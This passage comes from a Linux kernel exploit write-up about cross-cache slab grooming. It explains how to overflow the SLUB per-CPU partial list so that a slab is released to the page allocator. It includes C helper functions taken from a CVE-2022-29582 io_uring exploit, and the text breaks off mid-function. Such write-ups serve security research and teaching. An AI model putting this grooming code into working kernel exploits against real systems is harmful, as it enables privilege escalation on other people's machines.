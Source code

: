 If the partial list is already full, a slab that has no active objects anymore *will* be released back to the page allocator, which is exactly what we want. So we'll have to fill the partial list up with a bunch of junk slabs first.


For a more detailed description, I would recommend reading [this section of the CVE-2022-29582 writeup I worked on](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary).

Generally all the grooming to release a slab to the page allocator can be abstracted quite neatly. It ended up looking like this (mostly lifted from the `CVE-2022-29582` exploit as well):

```c 

#define OBJS_PER_SLAB 32
#define CPU_PARTIAL 30

#define CC_OVERFLOW_FACTOR 8

static inline int64_t cc_allocate(struct cross_cache *cc,
                                  int64_t *repo,
                                  uint32_t to_alloc)
{
    for (uint32_t i = 0; i < to_alloc; i++)
    {
        int64_t ref = cc->allocate();
        if (ref == -1)
            return -1;
        repo[i] = ref;
    }
    return 0;
}

static inline int64_t cc_free(struct cross_cache *cc,
                              int64_t *repo,
                              uint32_t to_free,
                              bool per_slab)
{
    for (uint32_t i = 0; i < to_free; i++)
    {
        if (per_slab && (i % (cc->objs_per_slab - 1) == 0))
            continue;
        else
        {
            if (repo[i] == -1)
                continue;
            cc->free(repo[i]);
            repo[i] = -1;
        }
    }
    return 0;
}

/*
 * Reserve enough objects to later overflow the per-cpu partial list */
static inline int64_t reserve_partial_list_amount(struct cross_cache *cc)
{
    uint32_t to_alloc = cc->objs_per_slab * (cc->cpu_partial + 1) * CC_OVERFLOW_FACTOR;
    cc_allocate(cc, cc->overflow_objs, to_alloc);
    return 0;
}

static inline int64_t allocate_victim_page(struct cross_cache *cc)
{
    uint32_t to_alloc = cc->objs_per_slab - 1;
    cc_allocate(cc, cc->pre_victim_objs, to_alloc);
```